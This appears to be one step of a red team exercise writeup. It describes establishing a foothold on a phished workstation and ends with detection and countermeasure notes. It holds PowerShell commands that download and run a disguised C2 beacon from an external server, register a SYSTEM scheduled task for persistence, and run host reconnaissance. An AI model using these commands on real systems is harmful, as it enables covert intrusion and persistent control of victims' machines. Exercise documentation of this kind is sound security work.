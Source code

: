 # Step 2: Establish Foothold

**Objective**: Upload and persist a C2 implant on a user workstation after phishing execution, enabling long-term access through scheduled task persistence.

---

## Context

- Initial access was gained via malicious .docm payload from Step 0
- Target system: A user in the user-workstation subnet
- Persistence achieved using a scheduled task that runs a C2 beacon

---

## Execution

### 1. Upload & Run C2 Beacon
- The beacon establishes connection with the external C2 server
- From the initial compromised user workstation:

```
Invoke-WebRequest -Uri <link to mythic server and minecraft.exe> -OutFile "C:\Users\Public\minecraft.exe"
Start-Process "C:\Users\Public\minecraft.exe"
```

### 2. Create a Scheduled Task for Persistence

```
$Action = New-ScheduledTaskAction -Execute "C:\Users\Public\minecraft.exe"
$Trigger = New-ScheduledTaskTrigger -AtStartup
Register-ScheduledTask -TaskName "MinecraftBaby" -Action $Action -Trigger $Trigger -User "SYSTEM" -RunLevel Highest
```
- The task will trigger on every system boot (automatically re-runs the malaware)

### 3. Conduct Host Reconnaissance

```
whoami
net localgroup administrators
query user
Get-WmiObject win32_computersystem
```
- Identify local users on subnet, privilege levels, and host metadata
- Enumerate environment to prepare for lateral movement



---

## Result

- Red Team has persistent access to the user workstation
- Scheduled task ensures beacon works and we can control malware
- We can also see other active users (may need to avoid)


---

## Detection Opportunities

| Vector | Description |
|--------|-------------|
| minecraft.exe gets found| Malware could land in unintended file location|
| netstat displays outbound beacon | SOC/users see unusal traffic|
| Network/Powershell logging| Log files shows minecraft.exe being downloaded and running|


---

## Defensive Countermeasures

- isolate beacon host from network (assuming there is only one, TBD as of 07/16)
- reverse beacon analysis (wireshark, ghidra, etc)
- they could update endpoint detection response (crowdstrike, microsoft defender, etc)